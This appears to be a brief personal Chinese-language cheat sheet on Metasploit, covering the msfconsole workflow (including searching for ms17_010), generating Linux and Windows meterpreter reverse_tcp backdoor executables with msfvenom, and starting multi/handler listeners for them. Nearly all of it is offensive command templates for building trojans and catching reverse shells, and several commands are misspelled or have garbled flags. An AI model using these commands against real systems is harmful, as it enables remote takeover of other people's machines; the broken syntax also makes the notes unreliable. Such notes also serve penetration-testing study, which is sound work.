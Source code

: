 ```yaml
---
title: msf使用
date: 2023-09-04 21:48:57
---
```

# msf使用

metasploit

## 流程

`msfconsole`

1. `search [ms17_010]` 查找漏洞

2. `use []` 选择漏洞

3. `show options` 查看参数

4. `session` 查看会话

   `session [num]` 选择会话

```shell
run vnc

```

## 后门

`msvenom -p [payload] lhost=[] lport=[] -f(format) exe -o(output) file_name.exe`

## 监听

`use exploit/multi/handler`

# 攻击主机

![image-20221223144819404](/home/wray/.config/Typora/typora-user-images/image-20221223144819404.png)

### 生成木马

linux : `msvenom -p linux/x64/meterpreter/reverse_tcp lhost=[host] -p=[port] -f elf -o .elf`

win: `msvenom -p windows/meterpreter/reverse_tcp lhost=[host] -p=[port] -f exe -o .exe`

### 监听木马

`handler -p [] lhost=[] -p []`



`use exploit/multi/handler`

`set`

`run`